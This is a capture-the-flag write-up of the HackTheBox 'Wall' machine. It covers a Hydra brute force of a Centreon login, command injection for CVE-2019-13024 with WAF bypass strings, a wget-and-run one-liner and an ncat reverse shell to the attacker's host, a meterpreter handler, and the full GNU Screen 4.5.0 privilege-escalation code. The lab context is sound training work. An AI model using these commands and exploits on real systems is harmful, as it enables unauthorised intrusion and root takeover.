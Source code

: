 ```yaml
---
layout: post
title: "HackTheBox - Wall"
author: "joona"
---
```


![](/images/wall/wall.jpg)

Wall is a Linux box created by [Askar][Askar] and it's based on RCE discovered by him in Centreon network/system monitoring tool.
It's rated as medium difficulty and was one the first active HTB boxes that I pwned by myself.
<br/><br/>

## Enumeration
Starting off with nmap:
>nmap -Pn -sV -sC -p- 10.10.10.157 -oA nmap/wall

We only have two open ports: `22` (OpenSSH 7.6p1) and `80` (Apache 2.4.29).
<br/>

Navigating to the webpage on port 80 we get the default Apache2 installation page. Let's do directory enumeration
with gobuster:<br/>
>gobuster dir -u 10.10.10.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

`10.10.10.157/monitoring` authentication prompt<br/>
`10.10.10.157/aa.php` displays only the number '1'<br/>
`10.10.10.157/panel.php` displays the text 'Just a test for php file !'<br/>

At this point I was pretty stumped. Firing `Nikto` at the website we notice that the
allowed HTTP Methods are: `GET`, `POST`, `OPTIONS` and `HEAD`.<br/>

Sending a POST request to 10.10.10.157/monitoring/ we get an interesting page `/centreon`.<br/>
![](/images/wall/monpost.jpg)<br/>

At `10.10.10.157/centreon` we have a `Centreon v.19.04.0` login page.<br/>

![](/images/wall/centreon.jpg)<br/>
The default credentials for the Centreon Web UI are `admin:centreon`, but these don't work.

Using Hydra to brute-force the login we get the correct password: `password1`
>hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-form-post "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Unauthorized"

<br/>
## Reverse Shell

This version of Centreon is vulnerable to Remote Code Execution ([CVE-2019-13024][CVE-2019-13024]).
There's a good blogpost made by the author of this machine [Centreon v19.04 Remote Code Execution][RCE].
This exploit uses `nagios_bin` parameter to execute arbitrary commands. <br/>

The blogpost explains the exploit in good detail and even gives us a [Python script][Script]! But that would of course be too easy
so the exploit doesn't work for this machine without modifications.

I modified the Python script to print out all requests and responses and saw that `send_payload` request gives us
a **403 Forbidden** response. If we change the value of NAGIOS_BIN to nothing, the request goes through.

{% highlight python %}
# this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1}".format(ip, port),
{% endhighlight %}

It seems that there's a Web Application Firewall (WAF) blocking the request.

I tried multiple different WAF bypass techniques such as:<br/>
`/???/??n/?ing 10.10.x.x`<br/>
`/u's'r/b'i'n/w'g'e't' 10.10.x.x:8000`<br/>

But to no avail. I realized that if the nagios_bin-parameter contains a whitespace, WAF blocks it.

At this point I decided to start following the blog post mentioned earlier manually.
For this we need to create a PHP/meterpreter reverse shell:
>msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=10.10.x.x lport=1339 > shell.txt

If you save the changes at http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1 and then intercept the POST request with Burp,
you can edit the nagios_bin value to include whitespaces:
>wget http://10.10.14.2:8000/shell.txt -O /tmp/shelli.php;php -f /tmp/shelli.php #

This one-liner downloads the reverse meterpreter/PHP shell and executes it. Remember the **#hashtag** in the end
to comment out the rest of the line.

![](/images/wall/nagiospost.jpg)<br/>
(Open the image in new tab to make it bigger).

Now we have the arbitrary command as nagios_bin value wit all dem glorious whitespaces (IP censored).
![](/images/wall/nagiosbin.jpg)<br/>

After this set up a HTTP server and a Metasploit multi/handler:<br/>
`python3 -m http.server`<br/>
In Metasploit: <br/>
`use exploit/multi/handler` <br/>
`set payload php/meterpreter/reverse_tcp`<br/>

To trigger the code we need to send the following POST request (replace the PHPSESSID cookie):<br/>
>POST /centreon/include/configuration/configGenerate/xml/generateFiles.php HTTP/1.1<br/>
Host: 10.10.10.157<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0<br/>
Accept: application/xml, text/xml, */*; q=0.01<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: http://10.10.10.157/centreon/main.get.php?p=60901&o=c&server_id=1&poller=<br/>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br/>
X-Requested-With: XMLHttpRequest<br/>
Content-Length: 33<br/>
Cookie: PHPSESSID=2pq8phulqrn4achohfj2b1rsbp<br/>
Connection: close<br/><br/>
poller=1&debug=true&generate=true<br/>

We should now get a Meterpreter shell as user `www-data`.
Remember to edit the nagios_bin at the web-panel to something else so you don't spoil the machine for others!
<br/><br/>

## Privilege Escalation
Let's move to `/tmp` and download [LinEnum.sh][LinEnum] script to enumerate the host.<br/>
LinEnum.sh results show us that **screen-4.5.0** has a SUID-bit set.
For this Google gives us [GNU Screen 4.5.0 - Local Privilege Escalation][Screen].

The exploit didn't work right off the bat so I decided to do it manually. Chopping the exploit code to pieces:<br/>
>**libhax.c**
{% highlight python %}
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
{% endhighlight %}

>**rootshell.c**
{% highlight python %}
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
{% endhighlight %}

Compiling:<br/>
`gcc -fPIC -shared -ldl -o libhax.so libhax.c`<br/>
`gcc -o rootshell rootshell.c`<br/>

Now download the files from the target machine /tmp folder:<br/>
`wget 10.10.x.x:8000\libhax.so`<br/>
`wget 10.10.x.x:8000\rootshell`<br/>

Next, manually walk through the exploit execution flow:<br/>
`/bin/screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"`<br/>
`cd /etc`<br/>
`umask 000`<br/>
`/bin/screen-4.5.0 -ls`<br/>
`/tmp/rootshell`<br/>

After running **rootshell** we should have now a root shell. We can now get the
**/home/shelby/user.txt** and **/root/root.txt** since we jumped straight from user *www-data* to *root*.

DONE! :)
Thank you for reading.


[LinEnum]: https://github.com/rebootuser/LinEnum
[Askar]: https://twitter.com/mohammadaskar2
[CVE-2019-13024]: https://nvd.nist.gov/vuln/detail/CVE-2019-13024
[Script]: https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py
[RCE]: https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/
[Screen]: https://www.exploit-db.com/exploits/41154
